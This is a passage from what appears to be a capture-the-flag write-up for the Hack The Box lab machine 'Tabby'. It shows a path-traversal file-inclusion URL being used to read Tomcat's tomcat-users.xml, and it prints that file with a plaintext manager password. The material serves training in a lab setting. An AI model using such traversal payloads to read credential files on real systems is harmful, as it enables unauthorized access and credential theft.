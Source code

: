 Connecting to http://tabby.htb:8080 shows a HTML page with links to different Apache Tomcat resources, including the manager (*/manager/html*). This latest requires an authentication. Pressing “Escape” to avoid the authentication popup window shows a detailed 401 page. This page refers to a *tomcat-users.xml* configuration file.

After some research on the Internet, googling for possible locations of this file, I eventually came up with the following location: */usr/share/tomcat9/etc/tomcat-users.xml*. To read the configuration file, I used the LFI vulnerability found previously:

URL: http://megahosting.htb/news.php?file=../../../../usr/share/tomcat9/etc/tomcat-users.xml

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!--
  Licensed to the Apache Software Foundation (ASF) under one or more
  contributor license agreements.  See the NOTICE file distributed with
  this work for additional information regarding copyright ownership.
  The ASF licenses this file to You under the Apache License, Version 2.0
  (the "License"); you may not use this file except in compliance with
  the License.  You may obtain a copy of the License at

      http://www.apache.org/licenses/LICENSE-2.0

  Unless required by applicable law or agreed to in writing, software
  distributed under the License is distributed on an "AS IS" BASIS,
  WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
  See the License for the specific language governing permissions and
  limitations under the License.
-->
<tomcat-users xmlns="http://tomcat.apache.org/xml"
              xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
              xsi:schemaLocation="http://tomcat.apache.org/xml tomcat-users.xsd"
              version="1.0">
<!--
  NOTE:  By default, no user is included in the "manager-gui" role required
  to operate the "/manager/html" web application.  If you wish to use this app,
  you must define such a user - the username and password are arbitrary. It is
  strongly recommended that you do NOT use one of the users in the commented out
  section below since they are intended for use with the examples web
  application.
-->
<!--
  NOTE:  The sample user and role entries below are intended for use with the
  examples web application. They are wrapped in a comment and thus are ignored
  when reading this file. If you wish to configure these users for use with the
  examples web application, do not forget to remove the <!.. ..> that surrounds
  them. You will also need to set the passwords to something appropriate.
-->
<!--
  <role rolename="tomcat"/>
  <role rolename="role1"/>
  <user username="tomcat" password="<must-be-changed>" roles="tomcat"/>
  <user username="both" password="<must-be-changed>" roles="tomcat,role1"/>
  <user username="role1" password="<must-be-changed>" roles="role1"/>
-->
   <role rolename="admin-gui"/>
   <role rolename="manager-script"/>
   <user username="tomcat" password="$3cureP4s5w0rd123!" roles="admin-gui,manager-script"/>
</tomcat-users>
```

